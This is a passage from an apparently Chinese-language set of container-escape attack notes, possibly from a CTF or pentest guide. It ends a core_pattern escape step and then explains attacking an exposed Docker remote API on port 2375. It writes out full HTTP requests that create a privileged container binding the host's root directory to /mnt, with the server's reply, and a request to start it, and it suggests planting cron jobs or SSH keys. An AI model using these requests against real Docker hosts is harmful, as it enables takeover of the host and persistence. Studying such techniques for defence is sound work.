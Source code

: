 3./proc/sys/kernel/core\_pattern 写入恶意文件

4.执行 c 代码，使进程崩溃

#### docker remote api

某些 ctf 平台就会使用这种方式来动态创建靶机，但如果 remote api 设置如下

```bash
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

开放在公网上就有被攻击的风险

有的时候也会发现是 2376 端口 区别是 2375 未加密 2376 是加密

攻击手法 一般可以写密钥和定时任务，一般情况下考虑定时任务，密钥有失败的可能 如未开启之类的

利用/containers/create 创建容器，把宿主机的”/”目录挂载到容器的”/mnt”目录下

```bash
POST /containers/create HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 130

{"HostName":"remoteCreate","User":"root","Image":"nginx/ntpd:4.2.6p5","HostConfig":{"Binds":["/:/mnt"],
"Privileged":true}}


//容器创建成功，并返回容器 id
HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:00:07 GMT
Content-Length: 90
Connection: close

{"Id":"容器 id","Warnings":null}
```

```bash
启动容器

POST /containers/容器id/start HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```